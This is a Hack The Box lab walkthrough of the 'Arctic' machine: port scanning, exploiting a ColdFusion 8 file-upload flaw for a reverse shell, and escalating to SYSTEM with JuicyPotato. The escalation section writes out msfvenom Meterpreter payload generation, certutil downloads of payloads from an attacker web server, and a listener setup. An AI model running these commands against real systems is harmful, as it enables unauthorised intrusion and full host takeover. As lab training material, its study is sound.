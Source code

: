 # Arctic - Hack The Box Walkthrough

**Target IP**: `10.10.10.11`  
**Hostname**: `arctic.htb`  

---

## Initial Setup

### Preparing the Environment
1. Store the target IP in a file for reuse:
   ```bash
   echo 10.10.10.11 > target
   ```
2. Add the target to your `/etc/hosts` file for easier navigation:
   ```
   10.10.10.11   arctic.htb
   ```

---

## Enumeration

### Full Port Scan
I conducted a full TCP port scan to identify open ports:
```bash
nmap -p- -v -iL target -oN nmap/full_tcp_scan.txt
```

**Open Ports**:
- 135/tcp - MSRPC
- 8500/tcp - HTTP (ColdFusion)
- 49154/tcp - MSRPC  

### Service Enumeration
Next, I performed a targeted scan on the discovered ports to gather detailed information:
```bash
nmap -p135,8500,49154 -v -iL target -A -oN nmap/target_ports_scan.txt -oX nmap/target_ports_scan.xml
```

Unfortunately, the Nmap scan provided limited details. Testing ports manually with `telnet` and `nc` also yielded no additional information.

---

## HTTP on Port 8500

Accessing the web server at `http://arctic.htb:8500/` revealed an administrative login page located at:  
`http://arctic.htb:8500/CFIDE/administrator/`

The page identified the software as **Adobe ColdFusion 8**.

![image](https://github.com/user-attachments/assets/965b6200-8bc6-4a63-94c1-deb76a96ca6e)

---

## Exploitation

### Identifying Vulnerability
I searched for known vulnerabilities in Adobe ColdFusion 8:
```bash
searchsploit Adobe ColdFusion 8
```

**Result**:
I discovered an exploit for **ColdFusion 8 Arbitrary File Upload**:  
```text
ColdFusion 8 - Arbitrary File Upload | 50057
```

I extracted the exploit using:
```bash
searchsploit -m 50057
```

![image](https://github.com/user-attachments/assets/1fe12b8e-0136-423b-925b-93fe40f8aebd)

### Modifying the Exploit
The exploit script needed configuration changes to target the Arctic machine:

![Screenshot from 2024-12-12 20-53-54](https://github.com/user-attachments/assets/1215ff26-65bb-4934-b60b-99af9f7f9474)

### Obtaining a Shell
Then run the python script:
```bash
python3 50057.py
```

![image](https://github.com/user-attachments/assets/0ad09701-8968-4c4c-9f45-80530f2a3e6b)

**Outcome**: Obtained a reverse shell on the Arctic machine 

---

## Privilege Escalation

### 1. Token Impersonation via JuicyPotato
#### Initial Findings
Checking privileges revealed `SeImpersonatePrivilege` enabled:
```bash
whoami /priv
```

#### Exploitation
1. **Download JuicyPotato** on your local machine:
   ```bash
   wget "https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe"
   ```
2. **Generate a Meterpreter Reverse Shell**:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=8887 -f exe -o shell.exe
   ```
3. **Start a Web Server**:
   ```bash
   python3 -m http.server 8081
   ```
4. **Transfer Exploits to the Target**:
   ```bash
   cd %TEMP%
   certutil -UrlCache -f http://<IP>:8081/JuicyPotato.exe JuicyPotato.exe
   certutil -UrlCache -f http://<IP>:8081/shell.exe shell.exe
   ```
5. **Start Listener**:
   ```bash
   msfconsole
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST <your_IP>
   set LPORT 8887
   run
   ```
6. **Run JuicyPotato**:
   ```bash
   .\JuicyPotato.exe -t * -p shell.exe -l 443
   ```

**Outcome**: Obtained a Meterpreter session with `NT AUTHORITY\SYSTEM` privileges.

---

## Summary

1. Identified **Adobe ColdFusion 8** running on port 8500.
2. Exploited an **arbitrary file upload vulnerability** to gain a foothold.
3. Used JuicyPotato to escalate privileges to SYSTEM.

---

## Resources

- [Adobe ColdFusion 8 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/50057)
- [JuicyPotato](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)
- [Windows Privilege Escalation — Token Impersonation (SeImpersonatePrivilege)](https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070)
- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

---
